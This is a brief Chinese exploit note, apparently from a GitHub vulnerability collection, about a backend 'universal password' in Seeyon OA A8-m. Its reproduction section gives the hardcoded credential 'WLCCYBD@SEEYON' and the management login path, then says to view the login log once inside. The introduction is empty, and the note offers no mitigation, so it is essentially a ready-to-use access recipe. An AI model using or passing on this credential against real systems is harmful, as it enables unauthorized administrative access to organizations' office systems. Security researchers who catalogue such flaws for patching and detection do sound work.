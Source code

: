 # 致远OA A8-m 后台万能密码

### 一、漏洞简介

### 二、漏洞影响

致远OA A8-m

### 三、复现过程

密码：


```
WLCCYBD@SEEYON
```

登陆地址：


```
http://url/seeyon/management/status.jsp
```

成功之后 输入 login 查看登录日志